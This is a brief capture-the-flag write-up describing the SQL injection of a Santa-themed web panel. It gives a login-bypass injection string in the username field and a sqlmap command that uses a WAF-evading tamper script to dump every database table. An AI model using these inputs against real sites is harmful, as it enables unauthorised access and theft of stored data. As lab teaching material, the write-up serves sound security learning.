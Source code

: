 ## **Website**
>	- Visited `http://ip:8000` to view the website.
>	- From the given hint, the panel path was found in `/santapanel`.
>	- Used `admin' or 1=1; --+` in the username field to bypass the login.
## **Burpsuite & sqlmap**
>	- Used Burpsuite to intercept the search request and save it to be used with `sqlmap`.
```
sqlmap -r search-request --tamper=space2comment --dbms sqlite --dump-all
```
>		- `-r` to specify the saved request file.
>		- `--tamper=space2comment` given to bypass the WAF.
>		- `--dmbs` to specify the database type.
>		- `--dump-all` to dump all the database entries.
>	- Table `users` found.![](users-table.png)
>	- Table `hidden_table` found.![](hidden-table.png)
>	- Table `sequels` found.![](sequels-table.png)

